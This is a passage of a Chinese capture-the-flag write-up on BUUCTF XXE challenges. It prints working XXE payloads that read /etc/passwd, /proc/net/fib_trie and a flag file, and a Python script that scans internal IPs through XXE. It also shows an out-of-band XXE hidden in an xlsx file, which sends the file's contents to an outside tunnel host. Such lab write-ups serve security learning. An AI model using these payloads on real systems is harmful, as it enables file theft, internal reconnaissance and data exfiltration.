先使用同样的方式xxe攻击，但是没有显示结果，可能是攻击失败，也可能没有这个文件  

访问其他文件，比如/etc/passwd,返回结果，说明攻击成功，不存在flag文件  


内网渗透找/proc/net/fib_trie  
```xml  
<?xml version="1.0"?>
<!DOCTYPE user[
<!ENTITY root SYSTEM "file:///proc/net/fib_trie">
]>
<user><username>&root;</username><password>asdg</password></user>
```  
  
发现ip10.244.244.20，爆破ip最后一位  
  
不过出问题了，要设置timeout，不然就需要很久，但是作者并不知道如何在yakit中设置，稍微等一会也可以
  

或者使用一个简单的脚本  
```py
import requests
url="http://02f06db6-7db1-4e58-99b7-e1d85cde4555.node5.buuoj.cn:81/doLogin.php"
for i in range(0,256):
    payload=f'<?xml version="1.0"?><!DOCTYPE user[<!ENTITY root SYSTEM "http://10.244.244.{i}">]><user><username>&root;</username><password>ddd</password></user>'
    try:
        res=requests.post(url=url,data=payload,timeout=1)
        print(res.text,end="\n")
    except:
        continue
```  
重定向
```bash
python hello.py > out.txt  
```
然后在out.txt中搜索flag  



## BUUCTF XXE COURSE 1  
一个登录界面，输入提交之后有回显，抓包发现是用xml格式发送数据  
  
直接找flag
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY f SYSTEM "file:///flag">
]>
<root> <username>&f;</username> <password>asdg</password> </root>
```  
可以找到  
  

## BUUCTF [网鼎杯 2020 青龙组]filejava  
  
启动httpd服务，内网穿透  
kk.txt  
```xml
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'https://voluntary-sequences-arlington-isaac.trycloudflare.com/get.php?a=%file;'>">
```  
新建excel文件，解压，在[Content_Types].xml中添加  
```xml
<!DOCTYPE ws [
<!ENTITY % file SYSTEM "file://flag">
<!ENTITY % out SYSTEM "https://voluntary-sequences-arlington-isaac.trycloudflare.com/kk.txt">
%out;%int;%send;
]>
```  
重新压缩，修改后缀为xlsx，上传文件，查看test.txt  
  


